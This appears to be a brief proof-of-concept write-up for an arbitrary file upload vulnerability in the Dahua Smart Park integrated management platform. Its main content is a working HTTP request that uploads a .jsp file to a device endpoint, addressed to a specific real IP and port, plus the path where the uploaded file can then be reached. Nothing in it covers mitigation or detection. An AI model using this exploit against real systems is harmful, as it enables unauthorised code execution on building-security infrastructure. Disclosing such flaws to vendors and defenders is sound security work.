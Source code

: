 Dahua Smart Park integrated management platform arbitrary file upload vulnerability

official website:https://support.dahuatech.com/

poc
```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 125.126.44.8:8443
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 229
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex123.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123456
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

![微信图片_20230713162025](https://github.com/qiuhuihk/cve/assets/139426926/b8b6f499-3885-4649-8186-558a314b1f43)

Upload path:http://ip:port/upload/emap/society_new/

![image](https://github.com/qiuhuihk/cve/assets/139426926/201a4ebe-e6d0-4016-ab35-9569cd98ad6e)
